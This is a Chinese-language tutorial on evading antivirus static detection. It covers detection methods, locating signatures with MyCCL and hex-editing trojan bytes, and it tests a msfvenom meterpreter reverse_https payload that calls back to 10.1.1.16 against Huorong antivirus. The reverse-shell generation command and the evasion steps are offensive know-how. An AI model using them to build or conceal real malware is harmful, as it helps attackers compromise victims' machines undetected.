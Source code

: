 ## 一、杀软

首先说一下杀软常用识别病毒的方式。

* 特征码识别
* 文件校验和法
* 进程行为监测法(沙盒模式)
* 云查杀
* 主动防御
* 机器学习识别

具体可自行百度。

## 二、过静态查杀

虚拟机里360有时有bug,怎么都不报毒，所以我们以火绒来实验。

怎么样才算过了静态免杀呢？

比如说，我把一个 exe 刚粘贴进电脑，就被杀软给杀了，那么我们通过各种方法使其粘贴到电脑并不会被杀软删除就算过了静态查杀。

#### 2.1 常规方法

* 改文件名
* 加资源
* 改区段
* 替换版本信息

#### 2.2 特征码免杀

免杀的基本思想就是破坏特征，这个特征有可能是特征码，有可能是行为特征，只要破坏了病毒和木马所固有的特征，并保证其原有功能没有改变，一次免杀就完成了。

所以我们需要定位特征码。

特征码定位分为文件特征码定位和内存特征码定位。

#### 2.2.1 文件特征码定位

常用工具 myccl 、muticcl .

1. MyCCL 定位特征码

   特征码定位又分为正向定位和反向定位。

   正向定位出来的特征码一般是改不了的，即改了之后会破坏文件结构使其执行不了，所以一般采用反向定位。

   这里我们采用 msf 生成的 exe 做测试。

   ```
   msfvenom -p windows/meterpreter/reverse_https LHOST=10.1.1.16 LPORT=4444 -f exe>shell.exe
   ```

   ![image-20210118213327162](img/image-20210118213327162.png)

   可以看到，直接被删除了。

   ![image-20210118214057868](img/image-20210118214057868.png)

   生成，则可以在自己指定路径下生成文件夹，

   ![image-20210118214214396](img/image-20210118214214396.png)

   然后用火绒对这个目录进行扫描删除病毒文件，（这里用火绒，360出bug）

   ![](img/image-20210118214640462.png)

   然后点在 `myccl `二次处理,又生成相同目录覆盖了原先目录，然后再查杀删除，再二次处理，知道查杀不出来位置。

   ![image-20210118214903285](img/image-20210118214903285.png)

   可以看到已经出现特征码，应为这里偏移量比较大，所以符合定位以下这里的特征码，

   然后点击生成，继续杀软查杀，二次处理循环知道杀软不在报毒和偏移量小于5，最好是2 和 4.

   ![image-20210118215321400](img/image-20210118215321400.png)

   现在出现了三个特征码，但是偏移量还比较大，所以继续右键特征码符合定位。

   有时候分块的时候正好把特征码分割开了，所以分块数量多设置几次。

   ![image-20210118215747564](img/image-20210118215747564.png)

   ok，第一个特征码差不多了

   记下来

   ```
   文件000025C8_00000005出现特征码!
   ```

   方法类似，都把区间缩小。

   ![image-20210118215944891](img/image-20210118215944891.png)

   现在我们拿winhex 或者 c32asm 以十六进制打开木马。

   ![image-20210118221018707](img/image-20210118221018707.png)

   找到对应位置，再偏移量内修改特征码。

   反向定位即点击 相应位置即可变为反向。

   ![image-20210118221447816](img/image-20210118221447816.png)

   其余过程类似。

   ![image-20210118222205141](img/image-20210118222205141.png)

   这是我反向定位出来的两个特征码。

   ![image-20210118224354219](img/image-20210118224354219.png)

   当我大幅度修改了特征码周围的数据时，杀软已经查杀不到了，但是此时木马的原有功能遭到了破坏甚至运行出现了错误，所以说这个试验很失败。也警示我们修改特征码要讲究方法。但是这也说明我们取得了一定程度上的成功。

   ![image-20210118224752386](img/image-20210118224752386.png)

2. muticcl 

   就不演示了，方法差不多，百度即可。

#### 2.2.3 修改特征码技巧总结

1. 直接修改特征码的十六进制

   修改方法:  把特征码所对应的十六进制改成数字差1或差不多的十六进制.
   适用范围:  一定要精确定位特征码所对应的十六进制,修改后一定要测试一下能否正常使用





